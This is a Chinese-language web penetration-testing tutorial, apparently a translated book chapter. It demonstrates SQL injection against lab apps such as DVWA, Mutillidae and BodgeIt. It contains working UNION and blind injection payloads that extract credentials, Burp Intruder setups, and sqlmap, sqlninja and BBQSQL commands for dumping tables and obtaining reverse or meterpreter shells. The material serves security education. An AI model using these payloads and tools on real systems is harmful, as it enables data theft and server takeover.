发现存在注入漏洞有助于你弄清楚 WHERE 条件是如何制定的。你还需要知道选择了多少列以及哪些列实际返回给客户端。

要获取列数，你可以使用 ORDER BY。从在有效值后注入 ORDER BY 1 开始，按第一行排序结果，然后按第二行，依此类推，直到你因尝试使用不存在的行号对结果排序而收到错误：



正如前面的屏幕截图所示，当按第 3 列排序时查询失败，这告诉你它只返回两列。另外，请注意在地址栏中，你的注入是 2' order by 3 -- '，你需要添加注释以使解释器忽略查询的其余部分，因为在 SQL 中 ORDER 必须始终位于句子的末尾。你还需要在注释前后添加空格（浏览器在地址栏中用 + 替换它们）并在末尾关闭单引号以防止语法错误。

现在你知道查询返回两列，要查看它们在响应中的呈现方式，请使用 UNION。通过提交 2' union select 1,2 -- '，你会看到第一列是名字，第二列是姓氏：



现在你可以开始从数据库中提取信息。

## 获取基本环境信息

为了从数据库中提取信息，你需要知道要查找什么：数据库有哪些？我们的用户可以访问其中哪些？有哪些表，它们有哪些列？这是你需要向服务器询问的初始信息，以便能够查询你希望获得的数据：



使用 DVWA 示例，鉴于你只有两列来获取信息，首先询问数据库名称和应用程序用于连接到 DBMS 的用户。

这是使用 MySQL 中预定义的 database() 和 user() 函数完成的：

## 漏洞：SQL 注入

用户 ID：

```
ID: 2' union SELECT schema_name,2 FROM information_schema.schemata -- '
First name: Gordon
Surname: Brown
```

```
ID: 2' union SELECT schema_name,2 FROM information_schema.schemata -- '
First name: information_schema
Surname: 2
```

```
ID: 2' union SELECT schema_name,2 FROM information_schema.schemata -- '
First name: dvwa
Surname: 2
```

你也可以通过注入以下内容来请求服务器上的数据库列表：

```
2' union SELECT schema_name,2 FROM information_schema.schemata -- '
```

## 漏洞：SQL 注入

用户 ID：

```
ID: 2' union SELECT table_name,2 FROM information_schema.tables WHERE table_schema = 'dvwa' -- '
First name: Gordon
Surname: Brown
```

```
ID: 2' union SELECT table_name,2 FROM information_schema.tables WHERE table_schema = 'dvwa' -- '
First name: guestbook
Surname: 2
```

```
ID: 2' union SELECT table_name,2 FROM information_schema.tables WHERE table_schema = 'dvwa' -- '
First name: users
Surname: 2
```

information_schema 是包含 MySQL 所有配置和数据库定义信息的数据库，因此 dvwa 应该是对应目标应用程序的数据库。现在让我们查询该数据库中包含的表：

```
2' union SELECT table_name,2 FROM information_schema.tables WHERE table_schema = 'dvwa' -- '
```

正如屏幕截图所示，我们正在查询 information_schema.tables 表中定义的所有表的表名，其中 table_schema（或数据库名称）为 'dvwa'。从那里，你可以获得包含用户信息表的名称，你也可以询问其列和每列的类型：

```
2' union SELECT table_name,2 FROM information_schema.tables WHERE table_schema = 'dvwa' and table_name = 'users' --'
```

你应该在每个请求中选择一个或两个信息片段，因为你只有两个字段来显示信息。SQL 提供了 CONCAT 函数，它连接两个或多个字符串。你可以使用它将多个字段放在单个值中。你将使用 CONCAT 在单个查询中提取用户 ID、名字和姓氏、用户名和密码：

```
2' union select concat(user_id,'-',first_name,' ',last_name),concat(user,':',password) from dvwa.users -- '
```



## 盲 SQL 注入

到目前为止，我们已经识别并利用了一个常见的 SQL 注入漏洞，其中请求的信息显示在服务器的响应中。然而，还有另一种类型的 SQL 注入，即服务器响应不会揭示实际的详细信息，无论是否存在。这称为盲 SQL 注入。

要检测盲 SQL 注入，你需要形成得到是或否响应的查询。这意味着查询在结果为正或负时以一致的方式响应，以便你可以区分两者。这可以基于响应的内容、响应代码或某些注入命令的执行。在最后一类中，最常见的方法是注入暂停命令并根据响应时间检测真或假（基于时间的注入）。为了澄清这一点，让我们用 DVWA 做一个快速练习。你还将使用 Burp Suite 来促进请求的重新提交。


在基于时间的注入中，形成一个查询，旨在在结果为真时暂停处理 N 秒，如果结果为假，则不暂停执行查询。为此，在 MySQL 中使用 SLEEP (N) 函数，在 MS SQL Server 中使用 WAITFOR DELAY '0:0:N' 函数。如果服务器需要这么长时间来响应，结果为真。

首先，转到 SQL Injection (Blind)。你会看到与另一个 SQL 注入练习相同的 User ID 文本框。如果你提交一个数字，它会显示对应用户的名字和姓氏。这次，然而，如果你提交一个撇号或单引号，它会显示空响应。但如果你提交 1' ' 会怎样？它显示用户 1 的信息；因此它是可注入的：




让我们回顾一下你现在掌握的信息。存在一个 ID=1 的有效用户。如果你提交错误的查询或不存在的用户，结果只是一个空的信息空间。然后有真和假两种状态。你可以通过提交 1' 和 '1'='1 以及 1' 和 '1'='2 来测试这些：



假响应显示在以下截图中。注意浏览器地址栏中某些字符被编码了（例如，'=' 被编码为 '%3D'）：



要提问是/否问题，你必须将 '1'='1' 替换为应返回 true 或 false 的查询。你已经知道应用程序的数据库名称是 'dvwa'。现在提交以下内容：



```
1' and database()='dvwa
```

你在这里得到了一个积极的响应。记住你不包含第一和最后一个引号，因为它们已经在应用程序代码中了。你怎么知道的？你需要逐个字符迭代以找到每个字母，提出诸如“当前数据库名称是否以 ? 开头”这样的问题。这可以通过表单或 Burp 的 Repeater 一次一个字符地完成，也可以通过 Burp 的 Intruder 来自动化。

从代理历史中发送一个有效请求到 Intruder，并按以下截图所示设置输入：



注意在 a 设置为输入后，有 %25。这是 URL 编码的 %（百分号）字符。URL 编码由浏览器自动完成，有时服务器需要正确解释发送的字符。编码也可以用于绕过某些基本验证过滤器。百分号字符，如前所述，是匹配任何字符串的通配符。在这里我们说如果用户 ID 为 1，当前数据库的名称以 a 开头，后面跟任意内容；有效载荷列表将是字母表中的所有字母和 0 到 9 的数字。SQL 字符串比较不区分大小写，除非特别指定。这意味着 A 与 a 相同：



你现在有了输入位置和有效载荷，但你将如何区分真响应和假响应？你需要在真或假结果中匹配某个字符串。你知道真响应始终包含 First name 文本，因为它显示了用户信息。我们可以为此创建一个 Grep - Match 规则：



现在开始攻击，你会看到 d 与一个真响应匹配：



要找到第二个字符，只需将 d（结果）前置到输入位置即可：

```
GET /dvwa/vulnerabilities/sqli_blind/?id=1'and+database()like'dsa%'&Submit=Submit HTTP/1.1
Host: 10.7.7.5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.7.7.5/dvwa/vulnerabilities/sqli_blind/?id=1%27%26Submit=Submit
Cookie: security=low; PHPSESSID=nctnb4t0oumnnb8q0ct9f5cau1
Connection: close
Upgrade-Insecure-Requests: 1
```

再次开始攻击，你会看到 v 是下一个字符：



继续此过程，直到没有可能的输入返回积极响应。你也可以构造第一轮查询以使用以下注入获得名称的长度，并迭代最后一个数字直到找到正确的长度值：

```
1' +and+char_length(database())=1+--+ '
```

记住，由于 Intruder 不像浏览器那样添加编码，你可能需要自己添加或在有效载荷配置中配置。在这里我们用 + 符号替换了所有空格。另外，注意由于 char_length() 的返回值是整数，你需要在其后添加注释并关闭引号。

关于最常见 DBMS 的 SQL 注入有用 SQL 命令的优秀参考可以在 PentestMonkey 的 SQL 注入备忘单 http://pentestmonkey.net/category/cheat-sheet/sql-injection 上找到。

## 自动化利用

正如前一节所示，利用 SQL 注入漏洞可能是一项棘手且耗时的任务。幸运的是，渗透测试人员有一些有用的工具可用于自动化从易受攻击的应用程序中提取信息的任务。


即使这里介绍的工具不仅可以用于利用，还可以用于检测漏洞，也不建议你以这种方式使用它们，因为它们的模糊机制会产生大量流量；它们无法轻松监督，你对它们向服务器发出的请求类型控制有限。这增加了对数据的损害风险，并使诊断事件变得更加困难，即使保留了所有日志。

## sqlninja

**sqlninja** 工具可以帮助你利用使用 Microsoft SQL Server 作为后端数据库的应用程序中的 SQL 注入缺陷。使用 sqlninja 工具的最终目标是通过 SQL 注入缺陷获得对数据库服务器的控制。sqlninja 工具是用 Perl 编写的，可以在 Kali 中通过导航到 **Applications | Database Assessments** 找到。sqlninja 工具不能用于检测注入缺陷的存在，而只能用于利用缺陷以获得对数据库服务器的 shell 访问。以下是 sqlninja 的一些重要功能：

- 用于指纹识别远程 SQL 服务器以识别版本、用户权限、数据库身份验证模式和 `xp_cmdshell` 可用性
- 用于通过 SQLi 在目标上上传可执行文件
- 与 Metasploit 集成
- 通过混淆代码使用 WAF 和 IPS 规避技术
- 使用 DNS 和 ICMP 协议进行 Shell 隧道
- 对旧版本 MS SQL 的 `sa` 密码进行暴力破解

sqlninja 工具与 sqlmap 类似，可以与 Metasploit 集成，你可以使用它在工具利用注入缺陷并创建本地 shell 时通过 `meterpreter` 会话连接到目标服务器。sqlninja 所需的所有信息都保存在配置文件中。Kali Linux 中的示例配置文件保存在 `/usr/share/doc/sqlninja/sqlninja.conf.example.gz`。你需要使用 `gunzip` 命令解压它。你可以使用 Leafpad 编辑文件，并通过从 Burp 等代理导出将其 HTTP 请求保存到其中。你还需要指定目标将连接到的本地 IP 地址。工具中包含一份详细的逐步 HTML 指南，可以在与配置相同的位置找到，文件名为 `sqlninja-how.html`。

配置文件看起来类似于以下截图所示。-- httprequest_start -- 和 --httprequest_end-- 是标记，必须在 HTTP 请求的开始和结束处定义：

```
########## HTTP REQUEST ##########
--httprequest_start--
POST http://192.168.1.70/mutillidae/index.php?page=view-someones-blog.php HTTP/1.1
Host: 192.168.1.70
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.70/mutillidae/index.php?page=view-someones-blog.php
Cookie: showhints=0; PHPSESSID=hba9jthgbslqkq7oj5e8e12611; acopendivids=swingset,lotto,phpbb2
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 67

author=bobby'; SQL2INJECT__ &view-someones-blog-php-submit-button=View+Blog+Entries
--httprequest_end--

# Local host: your IP address (for backscan and revshell modes)
lhost = 192.168.1.69

# Interface to sniff when in backscan mode
device = eth0
```

sqlninja 工具包含多个模块，如以下截图所示。每个模块都是为了使用不同的协议和技术获得对服务器的访问而创建的：

```
root@kali-1:/home# sqlninja
Sqlninja rel. 0.2.6-r1
Copyright (C) 2006-2011 icesurfer <r00t@northernfortress.net>
Usage: /usr/bin/sqlninja
    -m <mode> : Required. Available modes are:
    t/test   - test whether the injection is working
    f/fingerprint - fingerprint user, xp_cmdshell and more
    b/bruteforce - bruteforce sa account
    e/escalation - add user to sysadmin server role
    x/resurrectxp - try to recreate xp_cmdshell
    u/upload  - upload a .scr file
    s/dirshell - start a direct shell
    k/backscan - look for an open outbound port
    r/revshell - start a reverse shell
    d/dnstunnel - attempt a dns tunneled shell
    i/icmpshell - start a reverse ICMP shell
    c/sqlcmd  - issue a 'blind' OS command
    m/metasploit - wrapper to Metasploit stagers
```


要开始利用，输入以下命令：

```
sqlninja -f <path to config file > -m m
```

sqlninja 工具现在将开始注入 SQL 查询进行利用，并在完成后返回一个 meterpreter 会话。利用它，你可以完全控制目标。数据库系统作为网络上至关重要的服务器，始终是恶意攻击者最有吸引力的目标。诸如 sqlninja 之类的工具可以帮助你了解 SQL 注入漏洞的严重性，在你的对手攻击它之前。攻击者获得对数据库服务器的 shell 访问权限，是 IT 安全专业人员最不希望看到的事情。

## BBQSQL

Kali Linux 包含一个专门用于利用盲 SQL 注入漏洞的工具。BBQSQL 是一个用 Python 编写的工具。它是一个菜单驱动的工具，会询问多个问题，然后根据你的回答构建注入攻击。它是能够以极高准确度自动化测试盲 SQL 注入漏洞的最快工具之一。

BBQSQL 工具可以配置为使用二进制或频率搜索技术。它还可以自定义以在 HTTP 响应中查找特定值，以便确定 SQL 注入是否成功。

如以下屏幕截图所示，该工具提供了一个不错的菜单驱动向导。URL 和参数在第一个菜单中定义，输出文件也在其中定义，而使用的技术和响应解释规则则在第二个菜单中定义：



## sqlmap

sqlmap 工具或许是目前最完整的 SQL 注入工具。它自动化了发现 SQL 注入漏洞、准确猜测数据库类型并利用注入漏洞接管整个数据库服务器的过程。它还可以在利用注入后用作远程 shell，或者可以触发 Metasploit 有效载荷（如 Meterpreter）以获得更高级的访问权限。

sqlmap 的一些功能如下：

- 它提供对所有主要数据库系统的支持
- 它对基于错误和盲 SQL 注入都有效
- 它可以枚举表和列名，还可以提取用户和密码哈希
- 它可以通过利用注入漏洞支持文件的下载和上传
- 它可以使用不同的编码和篡改技术来绕过诸如过滤、WAF 和 IPS 之类的防御机制
- 它可以在数据库服务器上运行 shell 命令
- 它可以与 Metasploit 集成

在 Kali Linux 中，可以通过导航到 **Applications | Database Assessment** 找到 sqlmap。要使用该工具，首先需要找到要测试 SQL 注入的输入参数。如果变量通过 GET 方法传递，你可以向 sqlmap 工具提供 URL，它将自动进行测试。你也可以使用 -p 选项明确告诉 sqlmap 只测试特定参数。在以下示例中，我们正在测试 `username` 变量是否存在注入漏洞。如果发现存在漏洞，`--schema` 选项将列出 information schema 数据库的内容。这就是包含所有数据库及其表的信息的数据库：

```
sqlmap -u
"http://10.7.7.5/mutilidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" -p username --schema
```



如果要注入的参数是通过 POST 方法传递的，可以将一个 HTTP 文件作为输入提供给 sqlmap，其中包含头部和参数。HTTP 文件可以使用 Burp 等代理生成，通过复制捕获流量时在 Raw 选项卡下显示的数据。

该文件将类似于以下屏幕截图所示的内容：

```
root@kali:~/WebPentest# cat bodgeit_login.txt
POST http://10.7.7.5/bodgeit/login.jsp HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://10.7.7.5/bodgeit/login.jsp
Cookie: security_level=0; JSESSIONID=5CFA79D293718053B95752E719C507CF; acopendivids=swingset,jotto,
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Host: 10.7.7.5
```

然后可以将 HTTP 文件作为输入提供给 sqlmap。`--threads` 选项用于选择向应用程序发送的并发 HTTP 请求数。`--current-db` 选项将提取应用程序使用的数据库名称，而 `--current-user` 提取应用程序连接到数据库的用户名：

```
sqlmap -r bodgeit_login.txt -p username --current-db --current-user --threads 5
```

该命令会产生以下输出。数据库的名称为 PUBLIC，用户名为 SA：

```
Parameter: username (POST)
  Type: boolean-based blind
  Title: OR boolean-based blind - WHERE or HAVING clause
  Payload: username=-3658' OR 7354=7354-- HLCM&password=23

  Type: UNION query
  Title: Generic UNION query (NULL) - 5 columns
  Payload: username=23' UNION ALL SELECT NULL,CHAR(113)||CHAR(122)||CHAR(106)||CHAR(112)||CHAR(113)||CHAR(98)||CHAR(84)||CHAR(104)||CHAR(119)||CHAR(83)||CHAR(110)||CHAR(105)||CHAR(8 4)||CHAR(107)||CHAR(82)||CHAR(70)||CHAR(99)||CHAR(84)||CHAR(75)||CHAR(88)||CHAR(111)||CHAR(1 19)||CHAR(99)||CHAR(90)||CHAR(109)||CHAR(117)||CHAR(117)||CHAR(115)||CHAR(111)||CHAR(111)||CHAR(122)||C HAR(120)||CHAR(75)||CHAR(101)||CHAR(101)||CHAR(117)||CHAR(108)||CHAR(97)||CHAR(97)||CHAR(77)||CHAR(77)||CHAR(77)||CHAR(88)||CHAR(84)||CHAR(65)||CHAR(112)||CHAR(115)||CHAR(66)||CHAR(113)||CHAR(77)||CHAR(77)||CHAR(77)||CHAR(120)||CHAR(113)||NULL,NULL,NULL FROM INFORMATION_SCHEMA.SYSTEM_USERS-- Diyq&password=23

[00:18:08] [INFO] the back-end DBMS is HSQLDB
back-end DBMS: HSQLDB 1.7.2
[00:18:08] [INFO] fetching current user
[00:18:08] [WARNING] reflective value(s) found and filtering out
current user: 'SA'
current schema (equivalent to database on HSQLDB): 'PUBLIC'
[00:18:08] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.7.7.5'
[*] shutting down at 00:18:08
```

在确定数据库名称后，可以使用 `--tables` 和 `--columns` 选项提取有关表和列的信息。此外，还可以使用 `--data` 选项定义 POST 参数，而无需使用包含请求的文件。注意使用 " （引号）；它们用于使 Linux shell 将整组参数解释为一个字符串并转义 & （与号）字符，因为它是 Unix 系统命令行中的保留运算符：

```
sqlmap -u http://10.7.7.5/bodgeit/login.jsp --data "username=23&password=23" -D public --tables
```

你将看到以下输出：



要提取特定表的全部数据，我们使用 `--dump` 选项加上 -D 指定数据库和 -T 指定表：

```
sqlmap -u http://10.7.7.5/bodgeit/login.jsp --data "username=23&password=23" -D public -T users --dump
```

让我们看一个输出示例：

```
[01:13:09] [INFO] the back-end DBMS is HSQLDB
web application technology: JSP
back-end DBMS: HSQLDB 1.7.2
[01:13:09] [INFO] fetching columns for table 'USERS' in database 'PUBLIC'
[01:13:09] [INFO] used SQL query returns 5 entries
[01:13:09] [INFO] resumed: "CURRENTBASKETID","INTEGER"
[01:13:09] [INFO] resumed: "NAME","VARCHAR"
[01:13:09] [INFO] resumed: "PASSWORD","VARCHAR"
[01:13:09] [INFO] resumed: "TYPE","VARCHAR"
[01:13:09] [INFO] resumed: "USERID","INTEGER"
[01:13:09] [INFO] fetching entries for table 'USERS' in database 'PUBLIC'
